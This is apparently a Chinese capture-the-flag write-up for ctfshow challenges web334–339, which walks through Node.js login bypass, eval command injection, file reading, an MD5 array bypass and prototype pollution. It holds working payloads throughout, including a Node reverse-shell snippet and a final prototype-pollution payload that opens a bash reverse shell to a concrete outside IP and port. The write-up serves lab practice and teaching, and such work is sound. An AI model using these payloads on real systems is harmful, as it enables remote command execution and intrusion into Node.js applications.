


web334-344
web334
查看附件给了源码，感觉考了简单的代码审计
// login.js
var express = require('express');
var router = express.Router();
var users = require('../modules/user').items;
var findUser = function(name, password){
return users.find(function(item){
return name!=='CTFSHOW' && item.username === name.toUpperCase() && item.password === password;
});
};
/* GET home page. */
router.post('/', function(req, res, next) {
res.type('html');
var flag='flag_here';
var sess = req.session;
var user = findUser(req.body.username, req.body.password);
if(user){
req.session.regenerate(function(err) {
if(err){
return res.json({ret_code: 2, ret_msg: '登录失败'});
}
req.session.loginUser = user.username;
res.json({ret_code: 0, ret_msg: '登录成功',ret_flag:flag});
});
}else{
res.json({ret_code: 1, ret_msg: '账号或密码错误'});
}
});
module.exports = router;
// user.js
module.exports = {
items: [
{username: 'CTFSHOW', password: '123456'}
]
};这里有个坑，这里不让直接等于CTFSHOW，而是对输入的name进行大写后比较，所以name=ctfshow
var findUser = function(name, password){
return users.find(function(item){
return name!=='CTFSHOW' && item.username === name.toUpperCase() && item.password === password;
});
};web335(child_process.execSync)
<!--
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date: 2020-12-25 03:01:21
# @Last Modified by: h1xa
# @Last Modified time: 2020-12-25 06:52:38
# @email: h1xa@ctfer.com
# @link: https://ctfer.com
-->
<!DOCTYPE html>
<html lang="en">
<head>
<meta charset="UTF-8">
<title>CTFFSHOW</title>
<script type="text/javascript" src="/javascripts/jquery.js"></script>
</head>
<body>
where is flag?
<!-- /?eval= -->
</body>
</html>在nodejs中，eval()方法用于计算字符串，并把它作为脚本代码来执行，语法为“eval(string)”；如果参数不是字符串，而是整数或者是Function类型，则直接返回该整数或Function。
child_process具体用法
child_process.execSync(command[, options])
child_process.execSync() 方法通常与 child_process.exec() 相同，只是该方法在子进程完全关闭之前不会返回。当遇到超时并发送 killSignal 时，该方法将在进程完全退出之前不会返回。如果子进程拦截并处理了 SIGTERM 信号没有退出，父进程会一直等到子进程退出。
所以构造Payload:
?eval=require('child_process').execSync('tac fl00g.txt');
?eval=global.process.mainModule.constructor._load('child_process').exec('calc')web336(fs.readFileSync 反弹shell)
__filename 表示当前正在执行的脚本的文件名。它将输出文件所在位置的绝对路径，且和命令行参数所指定的文件名不一定相同。 如果在模块中，返回的值是模块文件的路径。 dirname 表示当前执行脚本所在的目录。
所以?eval=__filename看到文件/app/routes/index.js
var router = express.Router();
/* GET home page. */
router.get('/', function(req, res, next) {
res.type('html');
var evalstring = req.query.eval;
if(typeof(evalstring)=='string' && evalstring.search(/exec|load/i)>0){
res.render('index',{ title: 'tql'});
}else{
res.render('index', { title: eval(evalstring) });
}
});
module.exports = router;然后传入
require('fs').readdireSync('.')
require('fs').readFileSync('./routes/index.js')可以看到源码，发现过滤了exec 和load
其实已经可以读文件了，所以可以直接读flag
require('fs').readFileSync('./fl001g.txt')另外对于第一次的Payload可以绕过执行
require('child_process')['exe'%2B'cSync']('tac fl001g.txt')另外也可以进行反弹shell
(function(){
var net = require("net"),
cp = require("child_process"),
sh = cp.spawn("/bin/sh", []);
var client = new net.Socket();
client.connect(1211, "xxxxx", function(){
client.pipe(sh.stdin);
sh.stdout.pipe(client);
sh.stderr.pipe(client);
});
return /a/;
})();web337(数组绕过MD5)
Hint:
var express = require('express');
var router = express.Router();
var crypto = require('crypto');
function md5(s) {
return crypto.createHash('md5')
.update(s)
.digest('hex');
}
/* GET home page. */
router.get('/', function(req, res, next) {
res.type('html');
var flag='xxxxxxx';
var a = req.query.a;
var b = req.query.b;
if(a && b && a.length===b.length && a!==b && md5(a+flag)===md5(b+flag)){
res.end(flag);
}else{
res.render('index',{ msg: 'tql'});
}
});
module.exports = router;a && b && a.length===b.length && a!==b && md5(a+flag)===md5(b+flag)a[x]=1&b[x]=2
数组会被解析成[object Object]

web338(原型链污染)
给了源码
// login.js
var express = require('express');
var router = express.Router();
var utils = require('../utils/common');
/* GET home page. */
router.post('/', require('body-parser').json(),function(req, res, next) {
res.type('html');
var flag='flag_here';
var secert = {};
var sess = req.session;
let user = {};
utils.copy(user,req.body);
if(secert.ctfshow==='36dboy'){
res.end(flag);
}else{
return res.json({ret_code: 2, ret_msg: '登录失败'+JSON.stringify(user)});
}
});
module.exports = router;
// common.js
module.exports = {
copy:copy
};
function copy(object1, object2){
for (let key in object2) {
if (key in object2 && key in object1) {
copy(object1[key], object2[key])
} else {
object1[key] = object2[key]
}
}
}深入理解 JavaScript Prototype 污染攻击
看到了copy操作考虑原型链污染，于是尝试污染Object类，添加{“ctfshow”:“36dboy”}属性
POST:
Content-Type: application/json
{"username":"aa","password":"aa","__proto__":{"ctfshow":"36dboy"}}web339(反弹shell)
// login.js
var express = require('express');
var router = express.Router();
var utils = require('../utils/common');
function User(){
this.username='';
this.password='';
}
function normalUser(){
this.user
}
/* GET home page. */
router.post('/', require('body-parser').json(),function(req, res, next) {
res.type('html');
var flag='flag_here';
var secert = {};
var sess = req.session;
let user = {};
utils.copy(user,req.body);
if(secert.ctfshow===flag){
res.end(flag);
}else{
return res.json({ret_code: 2, ret_msg: '登录失败'+JSON.stringify(user)});
}
});
module.exports = router;
// api.js
var express = require('express');
var router = express.Router();
var utils = require('../utils/common');
/* GET home page. */
router.post('/', require('body-parser').json(),function(req, res, next) {
res.type('html');
res.render('api', { query: Function(query)(query)});
});
module.exports = router;
原型链污染覆盖 query 实现命令执行
Function环境下没有require函数，不能获得child_process模块，我们可以通过使用process.mainModule.constructor._load来代替require。
Function(query)(query)可以执行query对应的指令，我们可以使用变量覆盖，将query的值作为反弹shell的点。
预期解
先抓包访问/login，实现query值的覆盖，再访问/api来执行query的值。
用反弹shell的值覆盖：
{"__proto__":{"query":"return global.process.mainModule.constructor._load('child_process').execSync('bash -c \"bash -i >& /dev/tcp/117.72.70.186/6789 0>&1\"')"}}